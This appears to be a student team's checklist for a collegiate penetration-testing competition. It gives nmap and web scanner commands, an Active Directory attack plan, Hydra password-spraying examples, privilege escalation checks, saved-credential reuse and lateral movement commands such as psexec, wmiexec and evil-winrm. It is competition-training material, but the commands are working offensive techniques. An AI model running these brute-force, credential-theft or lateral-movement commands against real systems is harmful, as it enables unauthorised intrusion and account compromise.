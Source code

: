 This is a CPTC checklist to help us when we forget command syntax. It'll keep us on track throughout the competition. When you start the competition, go through the checklist in a linear fashion. 

==Note: ADD SPECIFIC SYNTAX AND FLAGS for each command.== 

>[!important] Scan Outputs
>Make sure each scan outputs to a text file. Then, copy the scan outputs to a USB or to your local machine so we can use the scan outputs when writing our report after the competition. 
# Setup
- [ ] Run the tool setup script.
- [ ] Run the University of Florida logging script. (Is this how we are going to track every command?)
- [ ] How are we going to communicate during the competition?
- [ ] We should get a big general password list together 
- [ ] Get a network map on the whiteboard for visualization, that helps a ton
# Scanning
## Network Scanning
- [ ] `sudo nmap 10.10.0.0/16 -T4 -sn -oN ping.scan` 
- [ ] `sudo nmap <ip-addrs> -T4 -oN quick.scan` // do we feel this scan is necessary? is port.scan fast enough to skip quick.scan? 
- [ ] `sudo nmap <ip-addrs> -T4 -sC -sV -oN port.scan`
## Web App Scanning
- [ ] `nikto -host <url-or-ip> -o nikto.txt`
	- David
- [ ] `nuclei -u <url-or-ip> -o nuclei.txt`
	- Nathaniel
- [ ] GreenBone // technically not but it fits well here
	- Nick
## AD Enumeration
- [ ] John - SMB share enumeration
- [ ] Josiah - SMB and LDAP user enumeration
- [ ] Lamoreaux - check Kerberos pre-auth and start Kerberos attacks

## Lamoreaux - AD Plan:
1. `ldapsearch` and `rpcclient` to see if anonymous binding is allowed
2. enum4linux, crackmapexec
3. Attempt to get a list of valid users, try pre-auth, try to kerberoast (`kerbrute`, `impacket`)
4. Try to harvest credentials with GPP, XML files, with nxe
5. get a session on a windows machine
6. download bloodhound and run a query
7. privesc
8. Look for more creds to spread to other machinesPP

# Exploitation
## David M.
- [ ] Find web app versions and Google CVEs in those versions
- [ ] SSRF
### Password Spraying w/ Hydra
Hydra's syntax can be unintuitive, so look it up.
- `-L` specifies a username wordlist
- `-P` specifies a password wordlist 
- `-o` outputs to a file
- `-t` to specify a number of **threads** (speeds things up)

To use Hydra against FTP (Password Guessing):
`hydra -l username -P /path/to/passlist ftp://<ip-addr>`

SSH and SMTP share the same syntax, but with `ssh://` or `smtp://` instead of `ftp://`

>[!warning] Examine the Login Request
>Login requests vary in formatting. If you don't get the format right, your password spraying won't work. Use BurpSuite to examine the login page and failure response text (ex: "invalid login" or "wrong creds") before you try Hydra.
>
>Doing so will make it easier to get Hydra to work, since you need to know how the authentication works and what result you get on an invalid login to set up Hydra correctly.

Examples for HTTP(S):
```shell
# example for GET requests
hydra -L usernames.txt -P rockyou.txt login.example.com http-get-form "/login.php?username=^USER^&password=^PASS^:Login failed"

# example for POST requests
hydra -L usernames.txt -P rockyou.txt login.example.com http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

Tips:
- Ask ChatGPT to explain the syntax if you're confused
- Always double-check the **form parameters** in Burp Suite or browser dev tools. Field names often aren’t just `username` and `password`. They might be `user`, `pwd`, `login`, etc.
- The **failure string** is critical. If you get it wrong, Hydra will either say “all guesses worked” or “all failed.” Look at the HTTP response to copy a reliable error message.

## Nathaniel
==CHOOSE attacks you want to try from the 2025 Training Plan.==
## Nick
==CHOOSE attacks you want to try from the 2025 Training Plan.==
# Privilege Escalation
## Linux
`grep sh /etc/passwd | cut -d ":" -f 1 > users.txt` makes a user list for brute-forcing

>  https://gtfobins.github.io/ - a list of native binaries for privilege escalation.

GTFOBins is basically an index of Linux PrivEsc methods. How to use it:
1. Check for sudo privileges on the victim machine: `sudo -l`
2. Check for SetUID executables: `find / -perm -4000 2>/dev/null`
3. Check for executables with capabilities: `getcap -r / 2>/dev/null`
4. Check the capabilities of your user: `capsh --print`
5. ==Look up ***all*** of your findings on GTFOBins.==
## Windows
List saved credentials:
`cmdkey /list`

Use saved credentials:
`runas /savecred /user:admin cmd.exe`

https://lolbas-project.github.io/ - a list of native binaries, scripts, and libraries for PrivEsc.
## Both
Get kernel version w/ `uname -a` (Linux) or `systeminfo` (Windows), then search for CVEs here:
- https://github.com/SecWiki/linux-kernel-exploits
- https://github.com/SecWiki/windows-kernel-exploits
# Lateral Movement Options
## Linux 
- **SSH** (port 22) `ssh user@ip`
## Windows
**RDP** (port 3389) `xfreerdp /v:<ip> /u:<user> /p:<password>`

**PsExec** (445 - SMB)
- On Windows: `PsExec.exe \\x.x.x.x -u Administrator -p Password -i cmd.exe`

- On Kali: `impacket-psexec domainName/user:password@x.x.x.x`
- (or use `psexec.py` instead of `impacket-psexec`)

**WinRM** (port 5985 or 5986)

- From Windows, there are two methods: 
- `winrs -u:UserName -p:Password -r:https://x.x.x.x cmd.exe`
- `Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`

From Kali: 
- `evil-winrm -i interfaceNum -u username -p password`
	- Add the -S flag to connect on 5986 via HTTPS instead of 5985 via HTTP

**Windows Management Instrumentation (WMI)**
Requirements to use: 
All of these ports must be open for this to work.
- 35/TCP DCOM  
- 445/TCP SMB  
- 49152-65535/TCP DCERPC  
- Must be an administrative user

WMI on Kali: 
- `impacket-wmiexec user:password@x.x.x.x`

SMBexec (port 445)
- `impacket-smbexec domainName/user:password@x.x.x.x`

>[!success] Lateral Movement with Pass-The-Hash
>Mimikatz, Impacket, and Metasploit allow you to use pass-the-hash to start a reverse shell just with the user's hash. You don't even need to crack it!

